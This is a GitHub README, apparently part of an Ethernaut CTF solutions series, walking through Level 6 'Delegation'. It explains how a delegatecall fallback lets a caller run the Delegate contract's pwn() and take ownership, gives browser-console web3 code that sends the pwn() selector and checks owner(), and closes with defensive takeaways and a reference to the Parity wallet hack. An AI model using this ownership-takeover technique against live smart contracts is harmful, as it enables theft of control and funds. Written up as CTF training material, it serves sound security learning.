

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 6 - Delegation](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-06-delegation)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Example](#example)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

This level want us to understand the danger of using Delegate calls in a smart contract. [Delegate Calls](https://solidity-by-example.org/delegatecall/) are a powerful tool that allows a contract to delegate a function call to another contract. This is a very useful feature when building upgradable contracts, but it can also be very dangerous if not used correctly.

Basically, a delegate call is a low-level function that allows another contract to execute a function using the storage of the calling contract. This means that the delegate contract can modify the state of the calling contract.

### Example

> If `contractA` executes `delegatecall` to `contractB`, `contractB`'s code is executed with `contractA`'s storage, `msg.sender` and `msg.value`.

In this Ethernaut level, the `Delegation` contract (contractA in the previous example) has a `fallback` function that delegates the call to the `Delegate` contract (contractB).

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

By using a `delegatecall` to the `pwn` function, we will update the owner of the `Delegation` contract.

> NOTE: The storage slot order also plays an important role when using delegate calls. But will we explore this in the next levels. Here, since both contract only have one state variable, we don't need to worry about it.

## Solution

(In the browser's console)

1. Let's start by getting the selector of the `pwn()` function:

```javascript
const pwnSelector = web3.utils.keccak256("pwn()").slice(0, 10);
```

2. Then, call the `Delegation` contract's `fallback` function with the `pwn()` function selector:

```javascript
/**
 * @param {string} from - Your wallet address.
 * @param {string} to - Delegation instance address.
 * @param {string} data - The selector of the pwn() function: "0xdd365b8b".
 */
await web3.eth.sendTransaction({
  from: player,
  to: instance,
  value: "0",
  data: pwnSelector,
});
```

3. You can call the `owner()` function to check if the hack was successful:

```javascript
await contract.owner();
```

## Takeaway

- Use extreme caution when using delegate calls in your smart contracts.
- Make sure to understand the implications of using delegate calls and the potential security risks.
- <b>Delegate calls should not accept untrusted inputs.</b>

## Reference

Parity Wallet Hack: https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
